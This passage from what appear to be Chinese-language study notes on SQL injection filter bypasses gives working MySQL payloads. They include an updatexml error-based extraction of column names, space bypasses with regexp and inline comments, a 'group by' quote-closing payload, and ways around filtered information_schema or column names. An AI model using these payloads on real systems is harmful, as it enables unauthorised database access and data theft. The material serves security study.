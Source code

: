 ```
| 11 | admin3   | 123      |
| 14 | admin4   | 123      |
+----+----------+----------+

&&(column_name)regexp('^r')绕空格
注意是绕报错注入的30字符限制
(updatexml(1,concat(0x3a,(select(group_concat(column_name))from(information_schema.columns)where(table_name='users')&&(column_name)regexp('^r'))),1))#
```



## §4.5 内联注释绕空格

`select * from users`与`select/**/*/**/from/**/users`的效果一样，只是把空格换成了`/**/`而已。



## §4.6 合成字符

## §4.7 绕过注释符

考虑以下语句：`select * from users where id='$id' limit 0,1`，禁用所有注释符。

可以考虑Payload为`1' group by 2,'`，得到的SQL语句为`select * from users where id='1' group by 2,'' limit 0,1`。这里不用`order by`爆列数的原因是`group by`支持多参数，可以闭合最后的单引号。

## §4.8 绕过`information_schema`爆列名

使用`mysql`数据库的`innodb_index_stats`和 `innodb_table_stats`两张表。

https://dba.stackexchange.com/questions/54608/innodb-error-table-mysql-innodb-table-stats-not-found-after-upgrade-to-mys

？？？？？？找不到这张表TODO：？？？？？？？？

https://www.cnblogs.com/upfine/p/16496021.html

## §4.9 绕过列名

假设`users`表内含有`id`、`username`、`password`这三列，SQL语句为`select * from users where username=$username`，但是`$username`过滤了这三个列名，所以我们不能再`' and 1=0 union select group_concat('password'),2,3`。

### §4.9.1 子查询创建新列名

当我们使用SELECT子句且未指定FROM子句的时候，SQL将会把列名也作为这一列的内容：

```sql
mysql> select 'abc',123,000;
    +-----+-----+-----+
    | abc | 123 | 000 |
    +-----+-----+-----+
    | abc | 123 |   0 |
    +-----+-----+-----+
    1 row in set (0.00 sec)
```
